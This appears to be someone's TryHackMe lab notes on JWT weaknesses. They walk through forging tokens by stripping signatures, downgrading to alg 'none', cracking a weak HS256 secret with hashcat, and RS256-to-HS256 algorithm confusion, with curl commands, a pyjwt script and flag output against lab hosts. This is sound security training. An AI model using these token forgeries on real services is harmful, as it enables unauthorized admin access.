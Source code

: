 ### Example of JWT token:

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9 - Header
eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0 - Payload 
UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4 - Signature
```

A JWT consists of three components, each Base64Url encoded and separated by dots:

- **Header** - The header usually indicates the type of token, which is JWT, as well as the signing algorithm that is used.
- **Payload** - The payload is the body of the token, which contain the claims. A claim is a piece of information provided for a specific entity. In JWTs, there are registered claims, which are claims predefined by the JWT standard and public or private claims. The public and private claims are those which are defined by the developer. It is worth knowing the different between public and private claims, but not for security purposes, hence this will not be our focus in this room.
- **Signature** - The signature is the part of the token that provides a method for verifying the token's authenticity. The signature is created by using the algorithm specified in the header of the JWT. Let's dive a bit into the main signing algorithms.

### Signing Algorithms

Although there are several different algorithms defined in the JWT standard, we only really care about three main ones:

- **None** - The None algorithm means no algorithm is used for the signature. Effectively, this is a JWT without a signature, meaning that the verification of the claims provided in the JWT cannot be verified through the signature.
- **Symmetric Signing** - A symmetric signing algorithm, such as HS265, creates the signature by appending a secret value to the header and body of the JWT before generating a hash value. Verification of the signature can be performed by any system that has knowledge of the secret key.
- **Asymmetric Signing** - An asymmetric signing algorithm, such as RS256, creates the signature by using a private key to sign the header and body of the JWT. This is created by generating the hash and then encrypting the hash using the private key. Verification of the signature can be performed by any system that has knowledge of the public key associated with the private key that was used to create the signature.

If using a HS265, may be able to crack this. See below.
### Security in the Signature

JWTs can be encrypted (called JWEs), but the key power of JWTs comes from the signature. Once a JWT is signed, it can be sent to the client, who can use this JWT wherever needed. We can have a centralised authentication server that creates the JWTs used on several applications. Each application can then verify the signature of the JWT; if verified, the claims provided within the JWT can be trusted and acted upon.

### Signature Validation Mistakes
#### Not Verifying the Signature

In the following example, a token is used to authenticate as the user 'user':
```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' http://10.10.37.161/api/v1.0/example2?username=user
{
  "message": "Welcome user, you are not an admin"
}
```

We can remove the signature part of the token, and it is still found to be valid:

```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.' http://10.10.37.161/api/v1.0/example2?username=user
{
  "message": "Welcome user, you are not an admin"
}
```

We may be able to do privilege escalation on the payload

```bash
eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0 = {"username":"user","admin":0}
```

We can replace 'user' with 'admin' and the '0' with a '1':

```bash
garffff@garffff:~$ echo -n '{"username":"admin","admin":1}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9
```

Sending the modifyed token, confirms we have access to the admin account:

```bash
garffff@garffff:~$ echo -n '{"username":"admin","admin":1}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.' http://10.10.37.161/api/v1.0/example2?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}"
}
```

#### Downgrading to None

We can remove the encryption type from the header:

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9 = {"typ":"JWT","alg":"HS256"}
```

By setting the 'alg' header to 'none':

```bash
garffff@garffff:~$ echo '{"typ":"JWT","alg":"None"}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0K
```

Next, set the payload to the user we want to priv esc to:

```bash
garffff@garffff:~$ echo '{"username":"admin","admin":1}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9Cg
```

Put it all together:

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9Cg.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4
```

And send:

```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9Cg.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' http://10.10.37.161/api/v1.0/example3?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{fb9341e4-5823-475f-ae50-4f9a1a4489ba}"
}
```

### Weak Symmetric Secrets

If a symmetric signing algorithm is used, the security of the JWT relies on the strength and entropy of the secret used. If a weak secret is used, it may be possible to perform offline cracking to recover the secret. Once the secret value is known, you can again alter the claims in your JWT and recalculate a valid signature using the secret.

```bash
garffff@garffff:~/Downloads$ echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.yN1f3Rq8b26KEUYHCZbEwEk6LVzRYtbGzJMFIF8i5HY' > jwt.txt
```

```bash
garffff@garffff:~/Downloads$ hashcat -m 16500 -a 0 jwt.txt jwt.secrets.list
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.yN1f3Rq8b26KEUYHCZbEwEk6LVzRYtbGzJMFIF8i5HY:secret
```

With the secret, modify the JWT token using https://jwt.io/

![[Pasted image 20241022153428.png]]

And verify:

```bash
garffff@garffff:~/Downloads$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.R_W3WxiyPIyIaYxD-PCY8PzDxd_DQKNkIDu9_KyzLzU' http://10.10.37.161/api/v1.0/example4?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{e1679fef-df56-41cc-85e9-af1e0e12981b}"
}
```
### Signature Algorithm Confusion

The last common issue with signature validation is when an algorithm confusion attack can be performed. This is similar to the `None` downgrade attack, however, it specifically happens with confusion between symmetric and asymmetric signing algorithms. If an asymmetric signing algorithm, for example, RS256 is used, it may be possible to downgrade the algorithm to HS256. In these cases, some libraries would default back to using the public key as the secret for the symmetric signing algorithm. Since the public key can be known, you can forge a valid signature by using the HS256 algorithm in combination with the public key.

```bash
garffff@garffff:~/Downloads$ curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password5" }' http://10.10.37.161/api/v1.0/example5
{
  "public_key": "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHSoarRoLvgAk4O41RE0w6lj2e7TDTbFk62WvIdJFo/aSLX/x9oc3PDqJ0Qu1x06/8PubQbCSLfWUyM7Dk0+irzb/VpWAurSh+hUvqQCkHmH9mrWpMqs5/L+rluglPEPhFwdL5yWk5kS7rZMZz7YaoYXwI7Ug4Es4iYbf6+UV0sudGwc3HrQ5uGUfOpmixUO0ZgTUWnrfMUpy2dFbZp7puQS6T8b5EJPpLY+iojMb/rbPB34NrvJKU1F84tfvY8xtg3HndTNPyNWp7EOsujKZIxKF5/RdW+Qf9jjBMvsbjfCo0LiNVjpotiLPVuslsEWun+LogxR+fxLiUehSBb8ip",
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.kR4DjBkwFE9dzPNeiboHqkPhs52QQgaHcC2_UGCtJ3qo2uY-vANIC6qicdsfT37McWYauzm92xflspmSVvrvwXdC2DAL9blz3YRfUOcXJT03fVM7nGp8E7uWSBy9UESLQ6PBZ_c_dTUJhWg35K3d8Jao2czC0JGN3EQxhcCGtxJ1R7T9tzBMaqW-IRXfTCq3BOxVVF66ePEfvG7gdyjAnWrQFktRBIhU4LoYwem3UZ7PolFf0v2i6jpnRJzMpqd2c9oMHOjhCZpy_yJNl-1F_UBbAF1L-pn6SHBOFdIFt_IasJDVPr1Ybv75M26o8OBwUJ1KK_rwX41y5BCNGcks9Q"
}

```

To use the script below, need to install the following:

```bash
garffff@garffff:~$ pip3 install pyjwt==1.5.3
```

Python script:

```bash
import jwt

public_key = "ADD_KEY_HERE"

payload = {
    'username' : 'admin',
    'admin' : 1
}

access_token = jwt.encode(payload, public_key, algorithm="HS256")
print (access_token)
```

Running the script:

```bash
garffff@garffff:~$ python3 secret.py 
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.PqBj1AKVA29470LnE7FbGonZ-NgzDCWhI8C-jr_Rjwc'
```

Verify:

```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.PqBj1AKVA29470LnE7FbGonZ-NgzDCWhI8C-jr_Rjwc' http://10.10.42.255/api/v1.0/example5?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{f592dfe2-ec65-4514-a135-70ba358f22c4}"
}
```


